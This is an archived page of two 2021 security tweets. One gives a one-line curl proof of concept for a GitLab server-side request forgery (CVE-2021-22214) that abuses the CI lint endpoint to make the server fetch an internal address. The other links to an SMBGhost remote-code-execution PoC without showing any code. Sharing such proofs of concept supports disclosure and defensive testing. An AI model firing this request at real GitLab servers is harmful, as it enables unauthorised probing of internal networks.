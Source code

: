 
# sec715
**https://twitter.com/sec715/status/1408218852245135362 _at 2021-06-25 00:21:52_**
<blockquote>
BOOM🔥🔥 Gitlab SSRF (CVE-2021-22214).

POC:
curl -s --show-error -H 'Content-Type: application/json' --data '{ "include_merged_yaml": true, "content": "include:\n  remote: http://x.x.x.x/api/v1/targets?test.yml"}' https://REDACTED/api/v4/ci/lint -k

#SSRF #Gitlab #bugbountytips https://t.co/07NnNq6in0
</blockquote>


<table><tr>
<td><img src="pictures/http+++pbs.twimg.com+media+E4r_isTVoAQ9o0q.jpg" alt="http://pbs.twimg.com/media/E4r_isTVoAQ9o0q.jpg"></td>
<td><img src="pictures/http+++pbs.twimg.com+media+E4r_jDBUUAQFWku.jpg" alt="http://pbs.twimg.com/media/E4r_jDBUUAQFWku.jpg"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>55</code></td>
<td>Favorites: <code>142</code></td>
</tr></table>

---

# CyberWarship
**https://twitter.com/CyberWarship/status/1408115718810447878 _at 2021-06-24 17:32:03_**
<blockquote>
SMBGhost_RCE_PoC 

RCE PoC for CVE-2020-0796  SMBGhost

#redteam #pentest #infosec
https://t.co/lxZaFahG4c https://t.co/euQgudEHtg
</blockquote>
